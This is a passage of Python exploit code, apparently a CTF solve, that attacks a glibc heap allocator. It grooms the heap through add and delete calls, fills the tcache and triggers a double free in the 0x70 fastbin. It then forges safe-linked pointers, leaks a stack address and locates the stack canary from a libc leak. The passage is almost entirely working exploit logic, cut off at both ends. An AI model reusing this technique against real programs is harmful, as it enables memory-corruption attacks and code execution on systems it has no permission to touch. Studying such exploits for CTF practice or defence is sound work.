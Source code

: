 ```python
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x71,
    fastbin_encrypt(target2 + 0x10, 0), 0x0,
)
for i in range(10):
    add(f"CS500{i}".encode(), 0x60, payload)
for i in range(10, 20):
    add(f"CS50{i}".encode(), 0x60, payload)

# clear remnant of unsorted bin
add(b"CS0010", 0x10, b"a")

# # fill tcache
delete(b"CS5019")
delete(b"CS5017")
delete(b"CS5009")
delete(b"CS5007")
delete(b"CS5005")
delete(b"CS5003")
delete(b"CS5001")

# double free in 0x70
delete(b"CS5012")
delete(b"CS5011")
delete(b"CS5013")

payload = p64(fastbin_encrypt(pos2, target2))
add(b"CS6000", 0x60, payload)
for i in range(2):
    add(f"CS600{i}".encode(), 0x60, b"a")

payload = flat(
    0x0, 0x0,
    0x0, 0x31,
    0x40cb47cc8, heap_leak + 0x19b0,
    heap_leak + 0x1af0, stack_leak_pivot,
)
add(b"CS9996", 0x60, payload)
stack_leak = u64(search(b"CS5016").ljust(8, b"\x00")) - 0x140 # ret addr
print(hex(stack_leak))

canary_addr = libc_leak - 0x2898

# double free
target3 = heap_leak + 0x25b0
pos3 = heap_leak + 0x24d0
payload = flat(
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x71,
    fastbin_encrypt(target3 + 0x10, 0), 0x0,
)
for i in range(10):
    add(f"CS700{i}".encode(), 0x60, payload)
for i in range(10, 20):
    add(f"CS70{i}".encode(), 0x60, payload)

# fill tcache
```